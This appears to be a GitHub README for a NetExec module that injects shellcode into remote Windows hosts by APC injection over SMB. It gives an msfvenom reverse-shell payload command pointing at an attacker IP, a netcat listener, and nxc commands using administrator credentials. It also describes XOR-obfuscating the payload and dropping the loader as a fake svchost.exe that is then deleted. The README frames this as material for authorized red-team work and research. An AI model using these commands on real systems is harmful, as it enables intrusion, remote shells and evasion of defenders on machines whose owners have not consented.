


# NXC APC Injection Module

## Overview

This custom module is designed as part of an NetExec to demonstrate APC Injection technique in a controlled and authorized security testing environment.


> ⚠️ This project is intended strictly for educational purposes and authorized security research. Do not use it against systems you do not own or have explicit permission to test.


## Usage 
Create a shellcode using msfvenom or another tool.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.21.237 LPORT=9001 -f raw -o shellcode.bin

```
Start your listener.
```bash

nc -lvnp 9001

```
Execute nxc with module APC Injection.

```bash
nxc smb <TARGETIP> -u <username> -p <password> -M apc-inj -o KEY=<KEY> SHELLCODE=<shellcode.bin> STAGER=<stager_ip>


nxc smb 192.168.1.100 -u Administrator -p Password -M apc-inj -o KEY=key123 SHELLCODE=msfvenom.bin STAGER=192.168.1.200


```




## Behind the scene

* XOR encryption is applied to the shellcode using a fixed key.
* The loader is compiled with MinGW with provided HOST and XOR KEY.
* HTTP Server is started at port 8000
* Upload the compiled exe file to C:\\Windows\\System\\svchost.exe
* Execute the PE file
* Deleting the file.

## Requirements

```bash
pip3 install impacket
apt install mingw-w64
```
## Installation

Installing the tool is as simple as running the following commands in the terminal:

```sh
git clone https://github.com/a5enx00/nxc-apc-injection
cd nxc-apc-injection
cp * ~/.nxc/modules/

```

## Credits

- @mr.d0x @NUL0x4C and @5pider  [Maldev academy](https://maldevacademy.com/)

## Disclaimer
This module has been created for academic purposes only and the developer takes no responsibility of its use !
